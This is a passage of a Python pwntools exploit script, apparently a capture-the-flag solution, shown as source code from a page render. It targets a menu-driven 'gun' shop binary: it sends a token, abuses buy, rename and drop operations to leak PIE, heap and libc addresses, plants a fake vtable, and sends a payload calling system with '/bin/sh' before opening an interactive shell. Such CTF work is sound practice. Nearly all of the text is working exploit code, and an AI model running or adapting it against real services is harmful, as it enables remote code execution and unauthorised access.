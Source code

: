 ```
    return
def use(ops):
    menu()
    sl('5')
    for c in ops:
        sl(str(c))
    return
def drop(index):
    menu()
    sl('6')
    ru('delete:')
    sl(str(index))
    return 
def main():
    #gdb.attach(r)
    ru('Token:')
    sl(token)
    buy(1, 215-8, 'A'*(215-8))
    buy(1, 31, 'A'*31)
    buy(1, 31, 'A'*31)
    buy(1, 31, 'A'*31)
    select(2)
    drop(2)
    rename(3, 15, 'AAAAn')
    menu()
    sl('5')
    ru('Select gun ')
    pie = u32(rn(4)) - 0x1d30
    log.info('pie = ' + hex(pie))
    heap = u32(rn(4))
    log.info('heap_leak = ' + hex(heap))
    sl('4')
    buy(1, 31, 'A'*31)
    drop(2)
    fake_vtable = heap + 192
    rename(1, 63, p32(pie+0x172e).ljust(63, 'A'))
    rename(3, 15, p32(fake_vtable) + p32(pie + 0x3fd0) + 'n')
    menu()
    sl('5')
    ru('Select gun ')
    addr = u32(rn(4)) - 0x712f0
    system = addr + 0x3ada0
    binsh = addr + 0x15b82b
    info("libc = " + hex(addr))
    payload = '1 '.ljust(12)
    payload += p32(system)
    payload += p32(0xdeadbeef)
    payload += p32(binsh)
    sl(payload)
    r.interactive()
    return
if __name__ == '__main__':
    main()
```
